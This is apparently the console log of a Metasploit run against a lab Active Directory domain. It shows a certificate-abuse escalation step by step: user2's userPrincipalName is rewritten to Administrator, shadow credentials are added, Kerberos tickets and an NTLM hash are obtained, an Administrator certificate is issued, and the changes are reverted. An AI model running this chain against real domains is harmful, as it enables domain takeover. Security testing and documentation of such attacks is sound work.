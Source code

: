 ```
[*] Running module against 172.16.199.200
[*] 172.16.199.200:445 - Loading auxiliary/admin/ldap/ldap_object_attribute
[*] 172.16.199.200:445 - Running auxiliary/admin/ldap/ldap_object_attribute
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Current value of user2's userPrincipalName: user2
[*] Attempting to update userPrincipalName for CN=user2,CN=Users,DC=kerberos,DC=issue to Administrator...
[+] Successfully updated CN=user2,CN=Users,DC=kerberos,DC=issue's userPrincipalName to Administrator
[+] The operation completed successfully!
[*] 172.16.199.200:445 - Adding shadow credentials for user2
[*] 172.16.199.200:445 - Loading admin/ldap/shadow_credentials
[*] 172.16.199.200:445 - Running admin/ldap/shadow_credentials
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Discovering base DN automatically
[*] 172.16.199.200:389 Discovered base DN: DC=kerberos,DC=issue
[*] Certificate stored at: /Users/jheysel/.msf4/loot/20250717140905_default_172.16.199.200_windows.ad.cs_563081.pfx
[+] Successfully updated the msDS-KeyCredentialLink attribute; certificate with device ID 2ff08c15-0ab3-98ad-ee0b-3fd1fbcf3e9d
[*] 172.16.199.200:445 - Loading admin/kerberos/get_ticket
[*] 172.16.199.200:445 - Getting hash for user2
[!] Warning: Provided principal and realm (user2@kerberos.issue) do not match entries in certificate:
[+] 172.16.199.200:88 - Received a valid TGT-Response
[*] 172.16.199.200:88 - TGT MIT Credential Cache ticket saved to /Users/jheysel/.msf4/loot/20250717140905_default_172.16.199.200_mit.kerberos.cca_263627.bin
[*] 172.16.199.200:88 - Getting NTLM hash for user2@kerberos.issue
[+] 172.16.199.200:88 - Received a valid TGS-Response
[*] 172.16.199.200:88 - TGS MIT Credential Cache ticket saved to /Users/jheysel/.msf4/loot/20250717140905_default_172.16.199.200_mit.kerberos.cca_015140.bin
[+] Found NTLM hash for user2: aad3b435b51404eeaad3b435b51404ee:4fd408d8f8ecb20d4b0768a0ac44b71f
[+] 172.16.199.200:445 - The requested certificate was issued.
[*] 172.16.199.200:445 - Certificate Policies:
[*] 172.16.199.200:445 -   * 1.3.6.1.5.5.7.3.2 (Client Authentication)
[*] 172.16.199.200:445 - Certificate UPN: Administrator
[*] 172.16.199.200:445 - Certificate stored at: /Users/jheysel/.msf4/loot/20250717140907_default_172.16.199.200_windows.ad.cs_548728.pfx
[*] 172.16.199.200:445 - reverting ldap object
[*] 172.16.199.200:445 - Loading admin/ldap/shadow_credentials
[*] 172.16.199.200:445 - Running admin/ldap/shadow_credentials
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Discovering base DN automatically
[*] 172.16.199.200:389 Discovered base DN: DC=kerberos,DC=issue
[*] No matching entries found - check device ID
[*] 172.16.199.200:445 - Loading auxiliary/admin/ldap/ldap_object_attribute
[*] 172.16.199.200:445 - Running auxiliary/admin/ldap/ldap_object_attribute
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Current value of user2's userPrincipalName: Administrator
[*] Attempting to update userPrincipalName for CN=user2,CN=Users,DC=kerberos,DC=issue to user2...
[+] Successfully updated CN=user2,CN=Users,DC=kerberos,DC=issue's userPrincipalName to user2
[+] The operation completed successfully!
[*] Auxiliary module execution completed
```
